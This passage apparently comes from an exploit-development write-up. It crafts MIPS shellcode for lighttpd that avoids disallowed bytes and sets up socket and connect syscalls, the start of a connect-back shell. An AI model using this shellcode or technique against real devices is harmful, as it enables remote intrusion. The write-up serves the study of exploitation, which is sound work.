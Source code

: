 Fifteen of the twenty bytes used to call socket cannot be sent to lighttpd so we need to fix that. Using the list of known operations we can send above I came up with this:

```
00400090 <_ftext>
	400090:		2b37fefe	slti $s7, $t9, -258
	400094:		26f62121	addiu $s6, $s7, 0x2121
	400098:		2ac42123	xori $a0, $s6, 0x2123
	40009c:		3ac52123	xori $a1, $s6, 0x2123
	4000a0:		3ac62121	xori $a2, $s6, 0x2121
	4000a4:		3ac23176	xori $v0, $s6, 0x3176
	4000a8:		0000000c	syscall
```

Address | Comments
--- | ---
400090 | $s7 = 0
400094 | $s6 = 0 + 0x2121
400098 | a0 = 0x2121 ^ 0x2123 = 2
40009C | a1 = 0x2121 ^ 0x2123 = 2
4000A0 | a2 = 0x2121 ^ 0x2121 = 0
4000A4 | v0 = 0x2121 ^ 0x3176 = 0x1057
4000A8 | We currently have no solution to fix this, so we'll leave it for now and come back to it. 

Performing the same task on the rest of the assembly required a little tweaking to the above function, but produced the same outcome. Here is the full assembly with all bad bytes removed except for the syscalls: 

```
.globl main
.text

main:
    slti $s7, $t9, -258
    addiu $s6, $s7, 0x3131
    
    # socket_descriptor = socket(AF_INET, SOCK_STREAM, IPPROTO_IP)
    xori $a0, $s6, 0x3133
    xori $a1, $s6, 0x3133
    xori $a2, $s6, 0x3131
    xori $v0, $s6, 0x2166
    syscall
    addiu $fp, $v0, -0x2121

    # connect(socket_descriptor, sockaddr, 16)
    # Build sockaddr on the stack
    # struct sockaddr_in {
    #	short int sin_family;
    #	ushort int sin_port;
    #	struct in_addr sin_addr;
 	#	uchar sin_zero[8];
 	# }
    addiu $a0, $fp, 0x2121
    xori $t0, $s6, 0x3133
    sw $t0, -300($sp)
    addiu $t0, $s7,  0x8080
    sh $t0, -298($sp)
    xori $t0, $s6, 0x239d
    sw $t0, -296($sp)
    xori $t0, $s6, 0x3B34
    sw $t0, -294($sp)
    sw $s7, -292($sp)
    addi $a1, $sp, -300
    xori $a2, $s6, 0x3121
    xori $v0, $s6, 0x217B
    syscall
```